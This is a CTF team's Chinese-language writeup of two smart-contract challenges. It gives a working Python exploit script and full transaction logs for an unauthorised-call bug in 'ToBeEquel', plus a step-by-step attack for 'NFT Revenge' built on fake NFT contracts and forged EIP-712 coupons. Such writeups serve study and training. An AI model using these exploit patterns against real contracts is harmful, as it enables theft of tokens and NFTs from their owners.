




感谢队里师傅们的辛苦付出,尤其是深海师傅`@B1ue1nWh1te`，考试中抽空第一个ak了区块链赛题！
同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 强网拟态防御国际精英挑战赛 的 writeup 

<!--more-->


# BlockChain

深海师傅 原文地址 [https://www.seaeye.cn/archives/487.html](https://www.seaeye.cn/archives/487.html)

## ToBeEquel

### 题目描述


[合约文件](https://img.seaeye.cn/file/qwnt2022/ToBeEquel.sol)


#### 解题过程

首先使用`nc 140.210.195.172 10001`连接服务器看看情况，发现需要先进行`工作量证明`，使用`Poseidon.PoW`模块即可，直接给出以下脚本`pow.py`。


```python
from Poseidon.PoW import PoWUtils   # https://github.com/B1ue1nWh1te/Poseidon

Connection = PoWUtils.ProofOfWork_SHA256_EndWithZero("140.210.195.172", 10001, "sha256(", "+?)", 4, 20, "?=")
Connection.interactive()

```


执行`python3 pow.py`，成功进入题目环境。


进入`Option 4`，获取`合约源代码`（已附在题目描述中）。


进入`Option 1`，创建`Deployer`账户。


访问`http://140.210.195.172/`，为该账户领取测试币以发起交易。


进入`Option 2`，部署题目合约，记录下`Transaction hash`以获取`合约地址`。


下面开始对合约进行分析，首先看到解出条件，需要满足`owner`的代币余额与我们账户的代币余额相等。


然后发现`owner`的最初余额有`500`，并且通过`_Cal`函数可以实现余额的修改，但是需要调用者为`合约部署者`或`合约自身`。


最后发现关键函数`CallTest`，它允许我们以`题目合约的身份`调用一个外部合约的自定义函数。一开始我以为是`函数选择器碰撞`类型，但发现这题不需要这么麻烦，直接传目的函数即可。


那么我们只需要将`to`设置为`题目合约地址`，`customFallback`设置为`_Cal(uint256,uint256)`即可进行余额的修改。但需要注意的是参数的编码问题，在`abi.encodeWithSignature(customFallback, msg.sender, data)`中对`CallTest`的调用者地址和传入的`data`值也进行了编码，这两个值将会作为函数参数`(uint256,uint256)`传入`_Cal`函数，我们需要对其进行构造。


经过测试我发现当`data`传入`0x`，即传入空值时，第二个`uint256`的值也就是`amount`参数的值会变为`0x40`，那么我们每调用一次`_Cal`，自己账户的代币余额就会增加`64`，而合约账户的代币余额减少的值与我们账户地址的两位后缀有关(从`value & 0xff`得知，`value`的值即为我们的账户地址)。但由于合约的余额每一次最多减少`0xff`，而我们的余额每一次最多增加`0x40`，所以考虑使用两次调用`_Cal`来实现余额相等。


经过上述分析得到这一方程：`500-2x=64*2`，解得`x=186`，即十六进制的`0xba`，所以我们需要使用[虚荣地址生成器](https://vanity-eth.tk/)来生成账户地址最后两位为`ba`的账户。使用这个账户来调用`_Cal`就可以实现每次合约的余额减少`186`，我们自己的余额增加`64`，两次后即可相等为`128`。


同样也给这个账户领取测试币用于发送链上交易，之后根据上述过程编写脚本进行攻击即可，使用`Poseidon.Blockchain`模块。代码中有详细注释。

```python
from Poseidon.Blockchain import *   # https://github.com/B1ue1nWh1te/Poseidon

# 连接至链
chain = Chain("http://140.210.195.172:8545")

# 导入账户
account = Account(chain, "13b0708eeaea2b2ec752d18f9e71780c3a51d29e3c6944ab171b1a568a4f01c3")

# 选择 Solidity 版本
BlockchainUtils.SwitchSolidityVersion("0.6.12")

# 编译题目合约
abi, bytecode = BlockchainUtils.Compile("target.sol", "ToBeEquel")

# 获取题目合约地址
contractAddress = chain.Net.eth.get_transaction_receipt("0x50bf4afa76ce9071edec120f1901f6e56563255efdcae485a6c3d55a38ac9ca4")["contractAddress"]

# 实例化合约
contract = Contract(account, contractAddress, abi)

# 查询余额
contract.ReadOnlyCallFunction("balances", "0x5799812Cc367Aa90073cba2a1D8f2141547A631b")  # 合约部署者即 owner
contract.ReadOnlyCallFunction("balances", account.Address)

# 攻击两次以使余额相等（均为128）
contract.CallFunction("CallTest", contractAddress, "_Cal(uint256,uint256)", "0x")
contract.CallFunction("CallTest", contractAddress, "_Cal(uint256,uint256)", "0x")

# 再次查询余额
contract.ReadOnlyCallFunction("balances", "0x5799812Cc367Aa90073cba2a1D8f2141547A631b")  # 合约部署者即 owner
contract.ReadOnlyCallFunction("balances", account.Address)

# 触发 ForFlag 事件
contract.CallFunction("getFlag")

```


运行日志如下（这是写题解复现时的数据）：

```log
2022-11-06 00:09:10.725 | SUCCESS  | Poseidon.Blockchain:__init__:32 - 
[Chain][Connect]Successfully connected to [http://140.210.195.172:8545]. [Delay] 141 ms
2022-11-06 00:09:10.749 | SUCCESS  | Poseidon.Blockchain:__init__:241 - 
[Account][Import]Successfully import account [0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba].
2022-11-06 00:09:10.844 | SUCCESS  | Poseidon.Blockchain:GetBalance:122 - 
[Chain][GetBalance][0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba]
[1000000000000000000 Wei]<=>[1 Ether]
信息: 用提供的模式无法找到文件。
2022-11-06 00:09:11.594 | SUCCESS  | Poseidon.Blockchain:SwitchSolidityVersion:580 - 
[BlockchainUtils][SwitchSolidityVersion]Current Version: 0.6.12
2022-11-06 00:09:11.809 | SUCCESS  | Poseidon.Blockchain:Compile:610 - 
[BlockchainUtils][Compile]
[FileCourse]target.sol
[ContractName]ToBeEquel
[ABI][{'inputs': [], 'stateMutability': 'nonpayable', 'type': 'constructor'}, {'anonymous': False, 'inputs': [{'indexed': False, 'internalType': 'address', 'name': 'addr', 'type': 'address'}], 'name': 'ForFlag', 'type': 'event'}, {'inputs': [{'internalType': 'address', 'name': 'to', 'type': 'address'}, {'internalType': 'string', 'name': 'customFallback', 'type': 'string'}, {'internalType': 'bytes', 'name': 'data', 'type': 'bytes'}], 'name': 'CallTest', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [{'internalType': 'uint256', 'name': 'value', 'type': 'uint256'}, {'internalType': 'uint256', 'name': 'amount', 'type': 'uint256'}], 'name': '_Cal', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}, {'inputs': [{'internalType': 'address', 'name': '', 'type': 'address'}], 'name': 'balances', 'outputs': [{'internalType': 'uint256', 'name': '', 'type': 'uint256'}], 'stateMutability': 'view', 'type': 'function'}, {'inputs': [], 'name': 'getFlag', 'outputs': [], 'stateMutability': 'nonpayable', 'type': 'function'}]
[Bytecode]608060405234801561001057600080fd5b50336000806101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055506101f4600160008060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002081905550610b27806100c76000396000f3fe608060405234801561001057600080fd5b506004361061004c5760003560e01c806327e235e314610051578063a0f1d69c14610081578063f96339301461009d578063feb6d173146100a7575b600080fd5b61006b60048036038101906100669190610679565b6100c3565b60405161007891906108fe565b60405180910390f35b61009b600480360381019061009691906106a2565b6100db565b005b6100a56101eb565b005b6100c160048036038101906100bc9190610721565b6102cf565b005b60016020528060005260406000206000915090505481565b6100e483610594565b156101e65760008373ffffffffffffffffffffffffffffffffffffffff1660008433856040516024016101189291906108ae565b60405160208183030381529060405290604051610135919061087c565b60405180910390207bffffffffffffffffffffffffffffffffffffffffffffffffffffffff19166020820180517bffffffffffffffffffffffffffffffffffffffffffffffffffffffff83818316178352505050506040516101979190610865565b60006040518083038185875af1925050503d80600081146101d4576040519150601f19603f3d011682016040523d82523d6000602084013e6101d9565b606091505b50509050806101e457fe5b505b505050565b600160003373ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002054600160008060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020541461029657600080fd5b7f89814845d4f005a4059f76ea572f39df73fbe3d1c9b20f12b3b03d09f999b9e2336040516102c59190610893565b60405180910390a1565b60008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff16148061035457503073ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff16145b610393576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161038a906108de565b60405180910390fd5b600160008060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002054600160003273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020541061043e57600080fd5b600254600160003273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002054101561048c57600080fd5b60ff8216600160008060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020019081526020016000206000828254039250508190555080600160003273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008282540192505081905550600160003273ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020546002819055505050565b600080823b905060008111915050919050565b6000813590506105b681610ac3565b92915050565b600082601f8301126105cd57600080fd5b81356105e06105db82610946565b610919565b915080825260208301602083018583830111156105fc57600080fd5b610607838284610a70565b50505092915050565b600082601f83011261062157600080fd5b813561063461062f82610972565b610919565b9150808252602083016020830185838301111561065057600080fd5b61065b838284610a70565b50505092915050565b60008135905061067381610ada565b92915050565b60006020828403121561068b57600080fd5b6000610699848285016105a7565b91505092915050565b6000806000606084860312156106b757600080fd5b60006106c5868287016105a7565b935050602084013567ffffffffffffffff8111156106e257600080fd5b6106ee86828701610610565b925050604084013567ffffffffffffffff81111561070b57600080fd5b610717868287016105bc565b9150509250925092565b6000806040838503121561073457600080fd5b600061074285828601610664565b925050602061075385828601610664565b9150509250929050565b61076681610a3a565b82525050565b610775816109fe565b82525050565b60006107868261099e565b61079081856109b4565b93506107a0818560208601610a7f565b6107a981610ab2565b840191505092915050565b60006107bf8261099e565b6107c981856109c5565b93506107d9818560208601610a7f565b80840191505092915050565b60006107f0826109a9565b6107fa81856109e1565b935061080a818560208601610a7f565b80840191505092915050565b6000610823600e836109d0565b91507f6e6f7420617574686f72697a65640000000000000000000000000000000000006000830152602082019050919050565b61085f81610a30565b82525050565b600061087182846107b4565b915081905092915050565b600061088882846107e5565b915081905092915050565b60006020820190506108a8600083018461075d565b92915050565b60006040820190506108c3600083018561076c565b81810360208301526108d5818461077b565b90509392505050565b600060208201905081810360008301526108f781610816565b9050919050565b60006020820190506109136000830184610856565b92915050565b6000604051905081810181811067ffffffffffffffff8211171561093c57600080fd5b8060405250919050565b600067ffffffffffffffff82111561095d57600080fd5b601f19601f8301169050602081019050919050565b600067ffffffffffffffff82111561098957600080fd5b601f19601f8301169050602081019050919050565b600081519050919050565b600081519050919050565b600082825260208201905092915050565b600081905092915050565b600082825260208201905092915050565b600081905092915050565b60006109f782610a10565b9050919050565b6000610a0982610a10565b9050919050565b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000819050919050565b6000610a4582610a4c565b9050919050565b6000610a5782610a5e565b9050919050565b6000610a6982610a10565b9050919050565b82818337600083830152505050565b60005b83811015610a9d578082015181840152602081019050610a82565b83811115610aac576000848401525b50505050565b6000601f19601f8301169050919050565b610acc816109ec565b8114610ad757600080fd5b50565b610ae381610a30565b8114610aee57600080fd5b5056fea264697066735822122018b4012f93aa9f227685db45ce7d3bebb6469bb566e0745dc72d32ee40d67b5c64736f6c634300060c0033
2022-11-06 00:09:11.948 | SUCCESS  | Poseidon.Blockchain:__init__:484 - 
[Contract][Instantiate]Successfully instantiated contract [0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02].
2022-11-06 00:09:12.125 | SUCCESS  | Poseidon.Blockchain:ReadOnlyCallFunction:535 - 
[Contract][ReadOnlyCallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]balances('0x5799812Cc367Aa90073cba2a1D8f2141547A631b',)
[Result]500
2022-11-06 00:09:12.271 | SUCCESS  | Poseidon.Blockchain:ReadOnlyCallFunction:535 - 
[Contract][ReadOnlyCallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]balances('0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba',)
[Result]0
2022-11-06 00:09:12.502 | INFO     | Poseidon.Blockchain:CallFunction:501 - 
[Contract][CallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]CallTest('0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02', '_Cal(uint256,uint256)', '0x')
2022-11-06 00:09:12.843 | INFO     | Poseidon.Blockchain:SendTransaction:328 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0x49fdd75928684c8ee9a33287a1840f996ff4a86bfb7f44bf889727ad8bb809f2
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "to": "0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02",
  "nonce": 0,
  "value": 0,
  "gasPrice": "1.2 Gwei",
  "gas": 82584,
  "data": "0xa0f1d69c000000000000000000000000f332e425fc7e63b1cf0d2041505d4e6acde38d02000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000155f43616c2875696e743235362c75696e7432353629000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"
}
2022-11-06 00:09:16.631 | SUCCESS  | Poseidon.Blockchain:SendTransaction:336 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0x49fdd75928684c8ee9a33287a1840f996ff4a86bfb7f44bf889727ad8bb809f2
[BlockNumber]92321
[From]0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba
[To]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Value]0 [GasUsed]81810
[Data]0xa0f1d69c000000000000000000000000f332e425fc7e63b1cf0d2041505d4e6acde38d02000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000155f43616c2875696e743235362c75696e7432353629000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
[Logs][]
2022-11-06 00:09:16.871 | INFO     | Poseidon.Blockchain:CallFunction:501 - 
[Contract][CallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]CallTest('0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02', '_Cal(uint256,uint256)', '0x')
2022-11-06 00:09:17.203 | INFO     | Poseidon.Blockchain:SendTransaction:328 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0x3f416504cb1ba04b1ac421a051e53b336342aee2abb6f2ccaa924625acc7a102
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "to": "0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02",
  "nonce": 1,
  "value": 0,
  "gasPrice": "1.2 Gwei",
  "gas": 52108,
  "data": "0xa0f1d69c000000000000000000000000f332e425fc7e63b1cf0d2041505d4e6acde38d02000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000155f43616c2875696e743235362c75696e7432353629000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"
}
2022-11-06 00:09:22.574 | SUCCESS  | Poseidon.Blockchain:SendTransaction:336 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0x3f416504cb1ba04b1ac421a051e53b336342aee2abb6f2ccaa924625acc7a102
[BlockNumber]92323
[From]0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba
[To]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Value]0 [GasUsed]51810
[Data]0xa0f1d69c000000000000000000000000f332e425fc7e63b1cf0d2041505d4e6acde38d02000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000155f43616c2875696e743235362c75696e7432353629000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
[Logs][]
2022-11-06 00:09:22.764 | SUCCESS  | Poseidon.Blockchain:ReadOnlyCallFunction:535 - 
[Contract][ReadOnlyCallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]balances('0x5799812Cc367Aa90073cba2a1D8f2141547A631b',)
[Result]128
2022-11-06 00:09:22.924 | SUCCESS  | Poseidon.Blockchain:ReadOnlyCallFunction:535 - 
[Contract][ReadOnlyCallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]balances('0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba',)
[Result]128
2022-11-06 00:09:23.152 | INFO     | Poseidon.Blockchain:CallFunction:501 - 
[Contract][CallFunction]
[ContractAddress]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Function]getFlag()
2022-11-06 00:09:23.448 | INFO     | Poseidon.Blockchain:SendTransaction:328 - 
[Account][SendTransaction][Traditional]
[TransactionHash]0xc174fa072a9cd7464c2f1c79843621e8cfcf00f622f30bd4204dd653f30a3eba
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "to": "0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02",
  "nonce": 2,
  "value": 0,
  "gasPrice": "1.2 Gwei",
  "gas": 25193,
  "data": "0xf9633930"
}
2022-11-06 00:09:28.650 | SUCCESS  | Poseidon.Blockchain:SendTransaction:336 - 
[Account][SendTransaction][Traditional][Success]
[TransactionHash]0xc174fa072a9cd7464c2f1c79843621e8cfcf00f622f30bd4204dd653f30a3eba
[BlockNumber]92325
[From]0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba
[To]0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02
[Value]0 [GasUsed]25193
[Data]0xf9633930
[Logs][AttributeDict({'address': '0xF332E425FC7e63B1cf0D2041505d4E6AcDE38d02', 'topics': [HexBytes('0x89814845d4f005a4059f76ea572f39df73fbe3d1c9b20f12b3b03d09f999b9e2')], 'data': '0x0000000000000000000000002f7ccf235768b35e0ba171d7fa60690ef35e79ba', 'blockNumber': 92325, 'transactionHash': HexBytes('0xc174fa072a9cd7464c2f1c79843621e8cfcf00f622f30bd4204dd653f30a3eba'), 'transactionIndex': 0, 'blockHash': HexBytes('0x66036d09fbd50b766a6f03aae7cda0ac5f8f3c4d9b7fef1f7b02d138a127b28d'), 'logIndex': 0, 'removed': False})]
```


最后进入`Option 3`，获取`flag`。


```flag
flag{Make_Two_Equel_Successfully}
```


## NFT Revenge

### 题目描述


[合约文件(自行微调版)](https://img.seaeye.cn/file/qwnt2022/NFT%20Revenge.sol)


### 解题过程

首先使用`nc 140.210.217.225 10001`连接服务器看看情况，发现需要先进行`工作量证明`，使用`Poseidon.PoW`模块即可，直接给出以下脚本`pow.py`。


```python
from Poseidon.PoW import PoWUtils   # https://github.com/B1ue1nWh1te/Poseidon

Connection = PoWUtils.ProofOfWork_SHA256_EndWithZero("140.210.217.225", 10001, "sha256(", "+?)", 4, 20, "?=")
Connection.interactive()

```


执行`python3 pow.py`，成功进入题目环境。


进入`Option 4`，获取`合约源代码`（已附在题目描述中）。


进入`Option 1`，创建`Deployer`账户。


访问`http://140.210.217.225:8080/`，为该账户领取测试币以发起交易。


进入`Option 2`，部署题目合约，记录下`合约地址`以备后续使用。


下面开始对合约进行分析，通过上面题目描述中已经附上的代码可以看出，这一题和`0CTF 2022`的`NFT Market`那题非常相似，但是`Solidity`版本由原先包含`Calldata 元组 ABI 重新编码中的头部溢出错误`的`0.8.15`版本变为了修复该 BUG 后的`0.8.16`版本，因此之前的解题方法就不太适用于这一题。


于是大致对比一下两道题目的合约代码，发现只有`purchaseWithCoupon`函数是有比较大的变动的，因此我们需要以新的思路进行构造，以获取`#3`NFT。


`NFT Market`原版：


`NFT Revenge`修改版：


接下来还是从头开始分析，先看`NFT`合约，很正常没有什么疑点。


再看`Token`合约，有用的信息是：`Market`合约的代币余额为`1337`、我们可以调用一次`airdrop`函数以获得数量为`5`的代币。


之后看到`Market`合约的构造函数，所有相关合约都由其创建，并且一共`mint`了`3`个NFT，分别以`1`、`1337`、`13333333337`的价格依次上架了这三个NFT。


然后看待`Market`合约的`win`函数，它指示了我们需要获取到这三个NFT才能达到解出条件，那么接下来就是思考如何`空手套白狼`以获取这三个已经上架到`Market`的NFT了。


首先不难判断出我们可以直接`领取空投`代币去买下`#1`NFT，我们必须这么做因为后续的各种操作都离不开`#1`NFT为我们打开格局，在初始状态下，`Market`的`orders`的内容可以抽象为`[#1,#2,#3]`。


为了方便讲解在此处放出`Hacker.sol`攻击合约的部分代码以进行形式化说明，我们的操作全称由`攻击合约`代为完成，首先调用`Token.airdrop()`获取启动资金，然后调用`Market.purchaseOrder(0)`表示全款买下`#1`NFT，最后别忘了用`NFT.approve(address(Market), 1)`授权`Market`可以移动`现在属于我们`的`#1`NFT，以便后续的上架操作能够正常完成。


执行`Hack1`后，`Market`的`orders`为`[#3,#2]`，这由`Market`的`_deleteOrder`处理。


之后要拿下的是`#3`NFT，顺序不能弄错，这是特地构造出来的。下面还是以`攻击合约`的代码来说明，先看`红框部分`，趁着我们还拥有对`#1`的控制权，先插入一个`Order`以便我们之后能将`#1`NFT买回。之后上架一个我们自己创建的`假的NFT`，并且它的`tokenId`为`3`，为什么是`3`呢，由于代码间跨度较大，我们后续再分析。再然后再上架一次`#1`NFT，这次的作用就是为了进行攻击`#3`NFT的。这三行之后`Market`的`orders`为`[#3,#2,#1,#Fake3,#1]`。


接下来开始切回`Market`合约进行分析，首先`#3`NFT的价格为`13333333337`，我们没有足够的代币直接买下，也没有漏洞可供我们获得如此大量的代币，所以只能另寻思路。看到`purchaseWithCoupon`函数，并重点关注`红框部分`代码，可以发现它重新通过`getOrder`来获取了新的`Order`对象（因为在上面调用了一次`_deleteOrder`删掉了旧的`Order`），但是发送的`tokenId`还是用的之前临时存储的旧的`order`对象。


因此也解释了我们上面为何那样构造订单顺序，首先通过上架`假的`且`tokenId`为`3`的NFT，以通过前面的重重验证，并且在这个漏洞点发挥重要作用，新的`Order`是我们最后插入的`#1`NFT，而它的`nftAddress`是我们所期望的与解题相关的NFT合约地址，这样一来，可以让`Market`合约把`#3`NFT发给我们，但还有一步就是需要构造`owner`，以使其值变成`Market`合约的地址（因为它是`#3`NFT的拥有者），如果不构造的话`owner`就会变成我们的地址，这样转移`#3`NFT就会失败。


下面看到我们自己的`HackerNFT`合约，构造`ownerOf`以使其在`Verifier`调用的时候显示`owner`是我们自己以便通过签名验证，在`Market`调用的时候显示`owner`是`Market`以便转移`#3`NFT能够成功。


最后就是解决签名验证问题了，看到题目的`CouponVerifierBeta`合约，我们需要构造`SignedCoupon`对象，并且其中的`coupon.issuer`需要为我们通过私钥控制的能够对消息进行签名的账户的地址，这也就是为什么在`Verifier`调用`orderOf`时返回`Me`的原因。然后`coupon.user`就是`攻击合约`地址，最后是`SignedCoupon`对象的整体构造。


看到`攻击合约`的`GetMessageHashToSign`函数，这里构造了和上面分析一致的`FakerOrder`，以上架`#Fake3`NFT，然后构造`FakeCoupon`，指示我们这个`Coupon`是用来购买`Market.orders[3]`这个`#Fake3`NFT的，最后就是按照前面`CouponVerifierBeta`给出的消息格式进行编码并获取`keccak256`值，以便我们对消息哈希进行链下签名，获得`v`、`r`、`s`的值。


需要注意的是签名需要以`EIP-712`标准进行，然后将签名数据传给`Hack3`以进行构造`SignedCoupon`，之后`Market.purchaseWithCoupon(FakeSignedCoupon)`就可以跑通了，成功拿下`#3`NFT，在此之后`Market`的`orders`为`[#3,#2,#1]`。


